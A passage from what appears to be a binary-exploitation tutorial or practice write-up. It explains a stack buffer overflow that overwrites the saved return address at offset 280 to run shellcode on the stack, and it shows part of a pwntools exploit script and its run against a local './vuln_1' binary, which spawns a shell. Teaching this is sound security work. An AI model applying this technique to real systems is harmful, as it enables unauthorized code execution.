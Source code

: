 ```python

p.sendafter(b"is this name correct? (y/n)?\n", b"y\n")

  

p.interactive()

```

  

All we have to do is set our offset in `overflow_offset_rip` to 280 (0x118), and set `new_rip` to the start of our buffer (the address of our shellcode). What we're going to send to the vulnerable program looks essentially like this:

<br>

<br>

![](/md-images/Pasted%20image%2020231121173335.png)

<br>

<br>

When `overflow()` returns, and the CPU reads the address of the saved `rip` it will read the address we put at the end of our buffer. The CPU will then go to that address on the stack and execute our shell code!

  

## Exploit it Yo!

  

All you have to do now is `chmod +x` your exploit script and then run it. It will start the vulnerable process and send the exploit:

  

```bash

┌──(hakcypuppy㉿kali)-[~/tsar]

└─$ ./exploit.py

[+] Starting local process './vuln_1': pid 1284173

[*] Switching to interactive mode

$ whoami

hakcypuppy

$

```
